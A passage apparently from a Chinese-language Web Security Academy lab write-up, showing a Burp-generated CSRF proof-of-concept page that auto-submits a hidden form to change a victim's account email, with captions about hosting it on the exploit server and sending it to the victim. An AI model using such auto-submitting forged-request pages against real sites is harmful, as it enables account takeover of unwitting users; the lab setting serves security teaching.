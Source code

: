 ```plain
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a760007041f898a80ee033b00f700f5.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="liuwei&#64;163&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

[![](assets/1705890866-2024b4f189ee1f854f7eeecfc09781b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118104653-d64093a4-b5ab-1.png)  
在漏洞利用服务器中托管利用载荷  
[![](assets/1705890866-a9c55dd1d96346942388a5b31ab48989.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240118104708-df0d1214-b5ab-1.png)  
随后分发载荷给受害者用户完成解题  